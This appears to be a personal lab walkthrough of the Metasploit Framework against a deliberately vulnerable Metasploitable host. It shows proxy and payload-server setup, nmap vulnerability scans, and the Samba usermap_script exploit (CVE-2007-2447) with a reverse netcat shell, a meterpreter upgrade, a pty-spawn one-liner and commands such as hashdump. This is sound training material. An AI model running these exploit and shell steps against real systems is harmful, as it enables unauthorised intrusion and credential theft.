






# Metasploit

## Overview

The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the Metasploit Framework is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. **Accessing MSFconsole** MSFconsole provides a command line interface to access and work with the Metasploit Framework. The MSFconsole is the most commonly used interface to work with the Metasploit Framework. The console lets you do things like scan targets, exploit vulnerabilities, and collect data.

Ref:
- [Metasploit Framework | Metasploit Documentation](https://docs.rapid7.com/metasploit/msf-overview/)

---
## Starting Metasploit

**Step 1:** Get the environment ready

- I'm calling it metasploit just for the metasploit demo, but I think i'd change it to match whatever im working on

```bash
mkdir -p ~/metasploit/{Proxy,Sockets,Staging,Scans,Loot,Hashes}
```

**Step 2:** Get our proxy ready

ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies.
Ref:
- https://github.com/haad/proxychains

Then we'll copy our proxychains4 config into our Proxy directory and edit the last two lines of each to make them match, respectively (using socks4 and socks5):
```bash
┌──(nomad㉿kali)-[~/metasploit/Proxy]
└─$ cp /etc/proxychains4.conf proxy_9050.conf; cp /etc/proxychains4.conf proxy_9051.conf


# Make sure to edit them
┌──(nomad㉿kali)-[~/metasploit/Proxy]
└─$ tail -2 proxy_9050.conf 
socks5 	127.0.0.1 9050
                                                                                                                     
┌──(nomad㉿kali)-[~/metasploit/Proxy]
└─$ tail -2 proxy_9051.conf
socks4 	127.0.0.1 9051
```

Then we can setup our socket
- I'm also using my raspberry pi as my proxy, which i already setup with my ssh config: [ProxyJump](../06-linux-remote-access/ssh.md)

```bash
  ssh -i ~/.ssh/pi_jump -Nf -D 9050 -D 9051 -R *:8080:127.0.0.1:8080 -R *:8443:127.0.0.1:8443 -MS ~/metasploit/Sockets/proxyjump.sock pi@192.168.8.50
```

**Note: make sure route to target net is setup: (or make persistent)**
- `sudo route add -net 172.16.0.0 netmask 255.255.255.0 gw 192.168.8.202`
- This proxy setup isn't too necessary since i have this route to my target network, but im using it for practice


Now we have our proxy setup, and we can verify our listening ports on both machines:
```bash
┌──(nomad㉿kali)-[~/metasploit]
└─$ ss -nltp | grep 905                               
LISTEN 0      128        127.0.0.1:9050       0.0.0.0:*    users:(("ssh",pid=27599,fd=5))
LISTEN 0      128        127.0.0.1:9051       0.0.0.0:*    users:(("ssh",pid=27599,fd=7))
LISTEN 0      128            [::1]:9051          [::]:*    users:(("ssh",pid=27599,fd=6))
LISTEN 0      128            [::1]:9050          [::]:*    users:(("ssh",pid=27599,fd=4))

┌──(nomad㉿kali)-[~/metasploit]
└─$ ssh -S Sockets/proxyjump.sock pi-jump ss -ntlp | egrep 8080\|8443
LISTEN 0      128        127.0.0.1:8443      0.0.0.0:*          
LISTEN 0      128        127.0.0.1:8080      0.0.0.0:*          
LISTEN 0      128            [::1]:8080         [::]:*          
LISTEN 0      128            [::1]:8443         [::]:*       
```

We can see our attack machine is listening on 9050/9051 and our proxy is listening on 8080/8443

**Step 3:** Establish file serving

Now we can set up our an http server on port 8443 so we can serve local payloads to any boxes we crack (from our staging directory/in a new tab), if needed:

```bash
┌──(nomad㉿kali)-[~/metasploit/Staging]
└─$ python3 -m http.server 8443
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
```



**Step 4:** Initialize/launch the metasploit framework and postgres db

- MSF uses postgresql as the db backend

```bash
┌──(nomad㉿kali)-[~/metasploit]
└─$ sudo service postgresql start

┌──(nomad㉿kali)-[~/metasploit]
└─$ sudo msfdb init
```
- using just `sudo msfdb` will give some other options

Then we can launch the `msfconsole` and verify database status:

```bash
┌──(nomad㉿kali)-[~/metasploit]
└─$ msfconsole

msf > db_status
[*] Connected to msf. Connection type: postgresql.
```



---

## Quick enumeration on our target

Check a few open ports:
```bash
proxychains4 -q -f ~/metasploit/Proxy/proxy_9051.conf nmap -Pn -n -sT 172.16.0.50 -oN ~/metasploit/Scans/172.16.0.50-allports

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
22/tcp   open  ssh          syn-ack
23/tcp   open  telnet       syn-ack
25/tcp   open  smtp         syn-ack
53/tcp   open  domain       syn-ack
80/tcp   open  http         syn-ack
111/tcp  open  rpcbind      syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
512/tcp  open  exec         syn-ack
513/tcp  open  login        syn-ack
514/tcp  open  shell        syn-ack
1099/tcp open  rmiregistry  syn-ack
1524/tcp open  ingreslock   syn-ack
2049/tcp open  nfs          syn-ack
3306/tcp open  mysql        syn-ack
5432/tcp open  postgresql   syn-ack
8009/tcp open  ajp13        syn-ack
```

Service version and vulnerable targeted (clearly since its metasploitable there are way too many vulns):
```bash
proxychains4 -q -f ~/metasploit/Proxy/proxy_9051.conf nmap -Pn -n -p21,22,23,25,53,80,111,139,445,512,513,514,1099,1524,2049,3306,5432,8009 -sT -sV --script=*vuln* 172.16.0.50 -oN ~/metasploit/Scans/172.16.0.50-svc-vuln

proxychains4 -q -f ~/metasploit/Proxy/proxy_9051.conf nmap -Pn -n -p21,22,23,25,53,80,111,139,445,512,513,514,1099,1524,2049,3306,5432,8009 -sT -sV -sC 172.16.0.50 -oN ~/metasploit/Scans/172.16.0.50-svc-scripts
```

---

## Setting Options

Back to msfconsole:

From here we can use the `setg` command to set our global variables, and setting up our msfconsole to use our proxy:

- `setg` alone will show current global variables

```bash
setg lhost 192.168.8.50
setg lport 8080
setg ReverseAllowProxy true
setg ReverseListenerBindAddress 127.0.0.1
setg ReverseListenerBindPort 8080
setg proxies socks5:127.0.0.1:9050
setg 
save
```

- Setting up the local host to match our jump
- Setting up reverse proxy 
- Setting up using our socket

Quick note, we can also run normal terminal commands from within the framework



---
## Searching for Modules

We can search for different modules, to include tpye (auxiliary/exploits), by CVE, or by platform

```bash
msf > search smb type:aux

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank    Check  Description
   -   ----                                                            ---------------  ----    -----  -----------
   0   auxiliary/server/capture/smb                                    .                normal  No     Authentication Capture: SMB
   1   auxiliary/scanner/http/citrix_dir_traversal                     2019-12-17       normal  No     Citrix ADC (NetScaler) Directory Traversal Scanner
   2   auxiliary/gather/crushftp_fileread_cve_2024_4040                .                normal  Yes    CrushFTP Unauthenticated Arbitrary File Read
```

---

```bash
msf> search smb type:exploit

Matching Modules
================

   #    Name                                                                            Disclosure Date  Rank       Check  Description
   -    ----                                                                            ---------------  ----       -----  -----------
   0    exploit/multi/http/struts_code_exec_classloader                                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   1      \_ target: Java                                                               .                .          .      .
   2      \_ target: Linux                                                              .                .          .      .
   3      \_ target: Windows                                                            .                .          .      .
   4      \_ target: Windows / Tomcat 6 & 7 and GlassFish 4 (Remote SMB Resource)       .                .          .      .
   5    exploit/osx/browser/safari_file_policy                                          2011-10-12       normal     No     Apple Safari file:// Arbitrary Code Execution
   6      \_ target: Safari 5.1 on OS X                                                 .                .          .      .
```

---

```bash
msf > search smb type:exploit platform:linux

Matching Modules
================

   #   Name                                                                       Disclosure Date  Rank    Check  Description
   -   ----                                                                       ---------------  ----    -----  -----------
   0   exploit/multi/http/struts_code_exec_classloader                            2014-03-06       manual  No     Apache Struts ClassLoader Manipulation Remote Code Execution
   1     \_ target: Java                                                          .                .       .      .
   2     \_ target: Linux                                                         .                .       .      .
   3     \_ target: Windows                                                       .                .       .      .
   4     \_ target: Windows / Tomcat 6 & 7 and GlassFish 4 (Remote SMB Resource)  .                .       .      .
   5   exploit/linux/misc/cisco_rv340_sslvpn                                      2022-02-02       good    Yes    Cisco RV340 SSL VPN Unauthenticated Remote Code Execution
```

---

```bash
msf > search CVE-2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script
```



---

## Selecting a Module

From the results above, there are a few ways to select a module, either:

1. After a search, type `use 0` (or the number of the matching module)
2. Or we can type `use auxiliary/scanner/smb/smb_version` (using the full path)

```bash
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > 
```

---

## Viewing Options

We can see the options/settings by typing `options`
- Can also see more details for the module by typing `info`
- There is a column that describes required vs not required also

```bash
msf auxiliary(scanner/smb/smb_version) > options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   172.16.0.50      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/ba
                                       sics/using-metasploit.html
   RPORT                     no        The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.
```

---

We can see the advanced options or arguments by typing `advanced`

```bash
msf auxiliary(scanner/smb/smb_version) > advanced

Module advanced options (auxiliary/scanner/smb/smb_version):

   Name                     Current Setting        Required  Description
   ----                     ---------------        --------  -----------
   CHOST                                           no        The local client address
   CPORT                                           no        The local client port
   ConnectTimeout           10                     yes       Maximum number of seconds to establish a TCP connectio
                                                             n
   DCERPC::ReadTimeout      10                     yes       The number of seconds to wait for DCERPC responses
   NTLM::SendLM             true                   yes       Always send the LANMAN response (except when NTLMv2_se
                                                             ssion is specified)
   NTLM::SendNTLM           true                   yes       Activate the 'Negotiate NTLM key' flag, indicating the
                                                              use of NTLM responses
   NTLM::SendSPN            true                   yes       Send an avp of type SPN in the ntlmv2 client blob, thi
                                                             s allows authentication on Windows 7+/Server 2008 R2+
                                                             when SPN is required
   NTLM::UseLMKey           false                  yes       Activate the 'Negotiate Lan Manager Key' flag, using t
                                                             he LM key when the LM response is sent
   NTLM::UseNTLM2_session   true                   yes       Activate the 'Negotiate NTLM2 key' flag, forcing the u
                                                             se of a NTLMv2_session
   NTLM::UseNTLMv2          true                   yes       Use NTLMv2 instead of NTLM2_session when 'Negotiate NT
                                                             LM2' key is true
   Proxies                  socks5:127.0.0.1:9050  no        A proxy chain of format type:host:port[,type:host:port
                                                             ][...]. Supported proxies: socks5, http, socks5h, sapn
                                                             i, socks4
  --output cutoff--
```

---

## Setting Options

This part is similar to the when we setup our workspace in the beginning. For specific modules, we use `set SETTING` to set that specific argument:
- For example, setting the remote host:

```bash
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.0.50
RHOSTS => 172.16.0.50
```

And if we didn't set the global variables in the beginning we can `set` them:
- Or usernames/passwords (if the module supports the options, this smb module doesn't need anything extra other than RHOSTS)

```bash
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.0.50
msf auxiliary(scanner/smb/smb_version) > set RPORT 445

#Or

msf auxiliary(scanner/ftp/ftp_login) > set USERNAME Target02
msf auxiliary(scanner/ftp/ftp_login) > set PASSWORD P@ssw0rd
```

---

## Running a Module

After we set the arguments/settings we need, we can either `run` or `exploit` the module

```bash
msf auxiliary(scanner/smb/smb_version) > run
[*] 172.16.0.50:445       - SMB Detected (versions: 1) (preferred dialect: ) (signatures: optional)
[+] 172.16.0.50:445       -   Host is running Unix
[*] 172.16.0.50:445       -   SMB signing is not required
[*] 172.16.0.50           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) > 
```

This specific scanner detects SMB versioning and OS



**Notice the bidirectional traffic from both the attack machine and the jump**

---

## Running an Exploit

Now we'll pivot to exploiting a vulnerability we picked up from our nmap scan (the CVE-2007-2447 we searched above):

The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

Ref:
- https://nvd.nist.gov/vuln/detail/CVE-2007-2447

```bash
msf > use exploit/multi/samba/usermap_script
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.0.50      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/bas
                                      ics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.50     yes       The listen address (an interface may be specified)
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Note that some pre-built payloads might not work with the specific target. To search other prebuilt payloads, type `show payloads`:

```bash
Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_awk                   .                normal  No     Unix Command Shell, Bind TCP (via AWK)
   2   payload/cmd/unix/bind_busybox_telnetd       .                normal  No     Unix Command Shell, Bind TCP (via BusyBox telnetd)
   3   payload/cmd/unix/bind_inetd                 .                normal  No     Unix Command Shell, Bind TCP (inetd)
```

For sake of learning/lab, i'll just run `exploit` with this default payload:
- Some exploits also allow a `check` to be ran, which can check if the target is vulnerable to the chosen exploit
- In order to change payloads, you'd type `set payload cmd/unix/bind_netcat` for example
  - Bind: attack machine connects to target (useful if target cant reach attack machine)
  - Reverse: target connects to attack machine

```bash
msf exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 127.0.0.1:8080 
[*] Command shell session 3 opened (127.0.0.1:8080 -> 127.0.0.1:57894) at 2026-06-20 14:25:00 -0400

id
uid=0(root) gid=0(root)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

Now that we're in the box we can press `CTRL+Z` to background the session:
- Since we don't have a meterpreter session we use this method
- If we had a meterpreter session, we could just type `bg`

And view sessions with `sessions`
- We can kill sessions with `sessions -k 3` (where the num is the num of the session)
- We can jump into sessions with `sessions -i 3`
- We can attempt to upgrade sessions to meterpreter with `sessions -u 3`

```bash
^Z
Background session 3? [y/N]  y
msf exploit(multi/samba/usermap_script) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  3         shell cmd/unix               127.0.0.1:8080 -> 127.0.0.1:57894 (172.16.0.50)
  
msf exploit(multi/samba/usermap_script) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3]
[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 127.0.0.1:8080 
[*] Sending stage (1062760 bytes) to 127.0.0.1
[*] Command stager progress: 100.00% (773/773 bytes)
msf exploit(multi/samba/usermap_script) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  3         shell cmd/unix                      127.0.0.1:8080 -> 127.0.0.1:57894 (172.16.0.50)
  4         meterpreter x86/linux               127.0.0.1:8080 -> 127.0.0.1:46710 (172.16.0.50)

msf exploit(multi/samba/usermap_script) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer     : metasploitable
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

For most linux boxes (if they're running python), we can also upgrade the shell in-session with:
- `python -c 'import pty; pty.spawn("/bin/bash")'`

```bash
msf exploit(multi/samba/usermap_script) > sessions -i 3
[*] Starting interaction with 3...

python -c 'import pty; pty.spawn("/bin/bash")'
root@metasploitable:/# 
root@metasploitable:/# whoami
whoami
root
```

After backgrounding session 3:

```bash
msf exploit(multi/samba/usermap_script) > sessions -k 3
[*] Killing the following session(s): 3
[*] Killing session 3
[*] 172.16.0.50 - Command shell session 3 closed.
msf exploit(multi/samba/usermap_script) > sessions

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  4         meterpreter x86/linux  root @ metasploitable  127.0.0.1:8080 -> 127.0.0.1:46710 (172.16.0.50)
```



---

## Some meterpreter commands

Some depending on platform:

```bash
route -- shows routes
netstat -- shows connections
sysinfo -- shows system info
ipconfig -- shows ips
hashdump -- attempts hash collection
lpwd -- shows local (kali) box working directory
lcd -- changes local box working directory
upload -- uploads files TO target
download -- downloads files FROM target
shell -- open up the terminal for terminal commands
search -f "*NAME" -- searches file names 
bg -- background the opened session
```

---

## Notes / Gotchas

- I was running into issues running proxychains4 with nmap v7.99, so i had to downgrade to nmap v7.94

```bash

#!/usr/bin/env sh

set -e
if [ "$(id -u)" -eq 0 ] || [ "$1" = "--resume" ]; then
#  exec /usr/lib/nmap/nmap "$@"
   exec /home/nomad/nmap-7.94-build/bin/nmap "$@"
else
#  exec /usr/lib/nmap/nmap --privileged "$@"
  exec /home/nomad/nmap-7.94-build/bin/nmap --privileged "$@"
fi
```